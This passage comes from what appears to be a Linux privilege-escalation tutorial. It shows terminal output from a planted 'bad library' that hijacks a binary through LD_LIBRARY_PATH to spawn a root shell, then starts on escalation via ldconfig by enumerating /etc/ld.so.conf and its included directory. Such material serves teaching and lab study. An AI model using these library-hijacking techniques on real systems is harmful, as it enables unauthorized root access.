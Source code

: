 ```bash
user@pwn:~/so-files/evil$ /usr/bin/myexec
Message from myexec.c!
Message from libcustom.c

user@pwn:~/so-files/evil$ /usr/bin/myexec2
Message from myexec.c!
I'm the bad library!
I'm trying to spawn a root shell...
Check your shell!
user@pwn:~/so-files/evil$ 
```

> Note: This may not work because it has been patched as well.

Now let's remove the value in the LD_LIBRARY_PATH environment variable with the `unset` command:

```bash
user@pwn:~/so-files/evil$ echo $LD_LIBRARY_PATH
/home/user/so-files/evil/
user@pwn:~/so-files/evil$ unset LD_LIBRARY_PATH
user@pwn:~/so-files/evil$ echo $LD_LIBRARY_PATH

user@pwn:~/so-files/evil$ 
```

# Privilege Escalation via LDCONFIG

Before continuing make sure that the environments variables that we used before are cleared:

```bash
user@pwn:~/so-files/evil$ echo $LD_LIBRARY_PATH

user@pwn:~/so-files/evil$ echo $LD_PRELOAD

user@pwn:~/so-files/evil$ 
```

The file `/etc/ld.so.conf` is a configuration file pointing to other configuration files that will help the linker to locate libraries. Read the directories listed in the `ldconfig` configuration file `/etc/ld.so.conf`:

```bash
user@pwn:~/so-files/evil$ ls -la  /etc/ld.so.conf
-rw-r--r-- 1 root root 34 Apr 14  2020 /etc/ld.so.conf
user@pwn:~/so-files/evil$ cat /etc/ld.so.conf
include /etc/ld.so.conf.d/*.conf

user@pwn:~/so-files/evil$ 
```

We could list the configuration files that are located in `/etc/ld.so.conf.d/`:

```bash
user@pwn:~/so-files/evil$ ls -la /etc/ld.so.conf.d/
total 24
drwxr-xr-x   2 root root  4096 Aug 19 06:30 .
drwxr-xr-x 128 root root 12288 Dec 10 12:04 ..
-rw-r--r--   1 root root    44 Apr 14  2020 libc.conf
-rw-r--r--   1 root root   100 Apr 14  2020 x86_64-linux-gnu.conf
```

